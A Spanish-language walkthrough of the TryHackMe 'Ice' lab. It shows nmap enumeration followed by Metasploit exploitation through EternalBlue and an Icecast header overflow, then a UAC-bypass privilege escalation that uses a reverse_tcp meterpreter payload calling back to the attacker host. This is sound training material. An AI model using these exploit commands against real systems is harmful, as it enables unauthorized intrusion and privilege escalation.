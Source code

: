 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Easy
  - Windows
  - SMB
  - EternalBlue
  - Icecast
  - MSF
  - PrivilegeEscalation
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#Searchsploit|Searchsploit]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Explotación vía SMB (MS17-010 / EternalBlue)|Explotación vía SMB (MS17-010 / EternalBlue)]]
	- [[#Explotación#Explotación del servidor Icecast (CVE-2004-1561)|Explotación del servidor Icecast (CVE-2004-1561)]]
		- [[#Explotación del servidor Icecast (CVE-2004-1561)#Escalada de Privilegios|Escalada de Privilegios]]

---
# Resolviendo la máquina Ice

>En esta publicación, comparto cómo resolví la máquina **Ice** de [TryHackMe](https://tryhackme.com/room/ice).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 10.10.3.8`

![[Pasted image 20250723132356.png]]

*TTL=127* -> **Windows**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.3.8 -oG allPorts`

![[Pasted image 20250723132505.png]]

`nmap -p135,139,445,3389,5357,8000,49152,49153,49154,49158,49159,49160 -sCV 10.10.3.8 -oN targeted`

![[Pasted image 20250723132608.png]]

`nmap -p445 --script smb-vuln-ms17-010 10.10.3.8`

![[Pasted image 20250723133018.png]]
### Searchsploit

`searchsploit Icecast`

![[Pasted image 20250723133244.png]]

---
## Explotación

En esta máquina existen varias formas de explotación.
### Explotación vía SMB (MS17-010 / EternalBlue)

Se utiliza el exploit (`exploit/windows/smb/ms17_010_eternalblue`) para la vulnerabilidad **MS17-010 (EternalBlue)** en el servicio **SMB**.

```
search exploit/windows/smb/ms17_010_eternalblue
use 0 | use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 10.10.3.8
LHOST 10.8.184.124
exploit
```

![[Pasted image 20250723134128.png]]

`sysinfo`

![[Pasted image 20250723134159.png]]

`getuid`

![[Pasted image 20250723134234.png]]
### Explotación del servidor Icecast (CVE-2004-1561)

Se utiliza el exploit (`exploit/windows/http/icecast_header`) para explotar una vulnerabilidad en el servidor de streaming **Icecast**.

```
search exploit/windows/http/icecast_header
use 0 | use exploit/windows/http/icecast_header
show options
set RHOSTS 10.10.3.8
set LHOST 10.8.184.124
set LPORT 4445
exploit
```

`sysinfo`

![[Pasted image 20250723134724.png]]

`getuid`

![[Pasted image 20250723134747.png]]

`pgrep explorer.exe`

![[Pasted image 20250723135032.png]]

`migrate 1316`

`sysinfo`

![[Pasted image 20250723135110.png]]

`background`
#### Escalada de Privilegios

Una vez obtenida una sesión de usuario no privilegiado, se utiliza el módulo `local_exploit_suggester` para identificar posibles vectores de escalada en el sistema.

Se utiliza el exploit (`post/multi/recon/local_exploit_suggester`) para sugerir exploits locales que podrían funcionar en un sistema comprometido.

```
search post/multi/recon/local_exploit_suggester
use 0 | use post/multi/recon/local_exploit_suggester
show options
set SESSION 1
exploit
```

![[Pasted image 20250723135848.png]]

Se utiliza el exploit (`exploit/windows/local/bypassuac_eventvwr`) para escalar privilegios en sistemas **Windows** mediante una técnica de *bypass de UAC (User Account Control)*.

```
search exploit/windows/local/bypassuac_eventvwr
use 0 | use exploit/windows/local/bypassuac_eventvwr
show options
set SESSION 1
set LHOST 10.8.184.124
set LPORT 1234
set targets 1
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

![[Pasted image 20250723140418.png]]

`sysinfo`

![[Pasted image 20250723140442.png]]

`getuid`

![[Pasted image 20250723140458.png]]

`getprivs`

![[Pasted image 20250723140519.png]]

`ps`

![[Pasted image 20250723140610.png]]

`pgrep spoolsv.exe`

![[Pasted image 20250723140651.png]]

`migrate 1368`

`getuid`

![[Pasted image 20250723140732.png]]

---